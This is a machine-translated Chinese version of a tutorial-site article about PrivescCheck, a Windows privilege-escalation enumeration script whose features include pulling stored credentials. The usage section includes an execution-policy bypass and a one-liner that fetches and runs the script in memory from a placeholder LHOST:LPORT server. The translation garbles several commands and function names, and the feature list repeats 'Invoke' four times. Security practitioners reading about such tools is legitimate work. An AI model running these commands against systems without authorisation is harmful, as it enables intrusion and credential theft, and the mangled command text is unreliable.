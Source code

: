 # prives check:Windows 权限提升枚举脚本

> 原文：<https://kalilinuxtutorials.com/privesccheck/>

[![PrivescCheck : Privilege Escalation Enumeration Script for Windows](img/a2073825ec46762ce086f870eba3ecef.png "PrivescCheck : Privilege Escalation Enumeration Script for Windows")](https://1.bp.blogspot.com/-yqgvj62YOAg/XmDawnmWc1I/AAAAAAAAFUM/9UO_Wk-gHvIE_MnzUWT00xZ_xnQN9nFZgCLcBGAsYHQ/s1600/Privilege%2BEscalation%2BEnumeration%2BScript%2BFor%2BWindows.png)

**prives check**脚本旨在**列举常见的 Windows 安全错误配置**，这些错误配置可用于权限提升，**收集可能对**利用**和/或**后利用**有用的各种信息**。

我建立在 [@harmj0y](https://twitter.com/harmj0y) 和[@ matti festigation](https://twitter.com/mattifestation)在[加电](https://github.com/HarmJ0y/PowerUp)中所做的惊人工作的基础上。我增加了更多的检查，并试图减少误报的数量。

它仍然是一项正在进行的工作，因为我还想实现一些检查，但它已经相当完整了。如果你有任何建议(改进、特性)，欢迎随时在 Twitter 上联系我 [@itm4n](https://twitter.com/itm4n) 。

**用途**

*   在 PowerShell 提示符下使用脚本。

PS C:\ Temp \ > Set-execution policy Bypass-Scope Process-Force
PS C:\ Temp \>。。\ Invoke-prives check . PS1；调用权限检查

*   显示输出，同时写入日志文件。

PS C:\Temp\ >。。\ Invoke-prives check . PS1；invoke-prives check | Tee-Object " C:\ Temp \ result . txt "

*   在 CMD 提示符下使用该脚本。

**C:\Temp\ > powershell -ep 旁路-c”。。\ Invoke-prives check . PS1；Invoke-PrivescCheck"**

*   从 web 服务器导入脚本。

**C:\ Temp \>powershell“IEX(新对象网。WebClient)。download string(' http://LHOST:LPORT/Invoke-privesccheck . PS1 ')；Invoke-PrivescCheck"**

*   **又一个 Windows 权限提升工具，为什么？**

我非常喜欢 [PowerUp](https://github.com/HarmJ0y/PowerUp) ，因为它可以非常快速地枚举常见漏洞，并且不使用任何第三方工具。问题是现在已经好几年没更新了。另一个问题是，这些年来我发现了很多次，它有时会返回令人困惑的误报。

GitHub 上还有其他工具，但是它们不太完整或者有太多的依赖关系。例如，它们依赖 WMI 调用或其他命令输出。

因此，我决定根据以下限制来编写自己的脚本:

*   **不得使用 SysInternals 的第三方工具**，如`**accesschk.exe**`。
*   **不得使用内置的 Windows 命令**，如`**whoami.exe**`或`**netstat.exe**`。这样做的原因是，我希望我的脚本能够在实施 AppLocker(或任何其他应用程序白名单解决方案)的环境中运行。
*   **它不能使用内置的 Windows 工具**，例如`**sc.exe**`或`**tasklist.exe**`，因为如果你试图在 **Windows Server 2016/2019** 上使用它们，你经常会得到一个**访问被拒绝**的错误。
*   **它不能使用 WMI** ，因为它的使用可能仅限于管理员用户。
*   最后但同样重要的是，它必须兼容 **PowerShell 版本 2** 。

**亦读-[XCTR 黑客工具 2020](https://kalilinuxtutorials.com/xctr-hacking/)**

**解决所有约束…**

*   **第三方工具**

我没有可取之处，我重用了一些 [@harmj0y](https://twitter.com/harmj0y) 和[@ matti festigation](https://twitter.com/mattifestation)做的代码。事实上，PowerUp 有一个非常强大的功能，叫做`Get-ModifiablePath`，它检查给定文件路径的 ACL，以查看当前用户是否对该文件或文件夹具有写权限。我稍微修改了一下这个函数，以避免一些误报。在此之前，像`/svc`这样的服务命令行参数可以被识别为易受攻击的路径，因为它被解释为`C:\svc`。我的另一个贡献是我做了一个*注册表兼容的*版本的这个函数(`Get-ModifiableRegistryPath`)。

*   **Windows 内置的 Windows 命令/工具**

在可能的情况下，我很自然地将它们替换成了内置的 PowerShell 命令，比如`Get-Process`。在其他情况下，比如`netstat.exe`，您不会获得像使用基本 PowerShell 命令那样多的信息。例如，使用 PowerShell，可以很容易地列出 TCP/UDP 侦听器，但是没有简单的方法来获取相关的进程 ID。在这种情况下，我必须调用 Windows API 函数。

*   **WMI**

你可以通过 WMI 获得大量信息，太棒了！但是，如果您面对的是一台经过适当加固的机器，那么对该接口的访问将会受到限制。所以，我不得不寻找变通办法。又来了**注册表**！常见的检查是基于一些注册表项，但它有更多的提供。最好的例子是服务业。只需浏览注册表，您就可以获得关于每个服务的所有信息(显然除了它们的当前状态)。与依赖于访问**服务控制管理器**的`sc.exe`或`Get-Service`相比，这是一个巨大的优势。

*   **PowerShellv2 支持**

这并不容易，因为新版本的 PowerShell 有非常方便的功能或选项。例如，`Get-LocalGroup`函数不存在，并且`Get-ChildItem`在 PowerShellv2 中没有`-Depth`选项。所以，你必须想办法解决这些小而耗时的问题。

**特性**

*   **当前用户**

**Invoke-user check–获取当前用户的用户名和 SID
Invoke-UserGroupsCheck–枚举当前用户所属的组，默认组和低特权组除外
Invoke-UserPrivilegesCheck–枚举当前用户令牌的高潜在特权**

*   **服务**

-Invoke-InstalledServicesCheck–枚举非默认服务
-Invoke-servicespermissioncheck–枚举当前用户可以通过服务控制管理器修改的服务
-Invoke-servicespermissionregistrycheck–枚举当前用户可以在注册表中修改的服务
-Invoke-ServicesImagePermissionsCheck–枚举所有具有可修改二进制文件(或参数)的服务
-Invoke-ServicesUnquotedPathCheck–枚举具有可以利用的未引用路径的服务

*   **Dll 劫持**

**Invoke-dllhijjackingcheck–检查任何系统路径文件夹是否可修改**

*   **程序**

**-Invoke-InstalledProgramsCheck-枚举默认情况下没有安装的应用程序
-Invoke-ModifiableProgramsCheck-枚举拥有可修改的 DLL 文件 EXE 的应用程序
-Invoke-RunningProcessCheck-枚举正在运行的进程**

*   **凭证**

-Invoke-SamBackupFilesCheck–检查 SAM/系统备份文件的常用位置
-Invoke-Unattend files check–枚举无人参与文件并提取凭据
-Invoke-Winlogon check–检查存储在 Winlogon 注册表项中的凭据
-Invoke-CredentialFilesCheck–列出存储在当前用户 AppData 文件夹中的凭据文件
-Invoke-VaultCredCheck–枚举保存在凭据管理器中的凭据
-Invoke-VaultListCheck–枚举保存在凭据管理器中的 web 凭据
-Invoke-Invoke-Invoke-Invoke

*   **注册表**

-Invoke-UacCheck-检查是否启用了 UAC(用户访问控制)-Invoke-LAPS check-检查是否启用了 LAPS(本地管理员密码解决方案)
-Invoke-PowershellTranscriptionCheck-检查是否配置/启用了 PowerShell 转录
-Invoke-registrayalysinstallelevatedcheck-检查注册表中是否设置了 AlwaysInstallElevated 项
-Invoke-lsaprotationscheck-检查 LSASS 是否作为受保护的进程运行(+附加检查)

*   网络

-Invoke-TcpEndpointsCheck–枚举本地计算机上的异常 TCP 端点(IPv4 和 IPv6)
-Invoke-UdpEndpointsCheck–枚举本地计算机上的异常 UDP 端点(IPv4 和 IPv6)

*   **杂项**

-Invoke-windows updatecheck-检查机器的上次更新时间-Invoke-SystemInfoCheck-获取操作系统的名称和完整版本字符串
-Invoke-LocalAdminGroupCheck-枚举默认本地管理组的成员
-Invoke-MachineRoleCheck-获取机器的角色(工作站、服务器、域控制器)
-Invoke-SystemStartupHistoryCheck-获取系统启动事件列表-Invoke-SystemStartupCheck-获取上次系统启动时间
-Invoke-SystemDrivesCheck-获取

[**Download**](https://github.com/itm4n/PrivescCheck)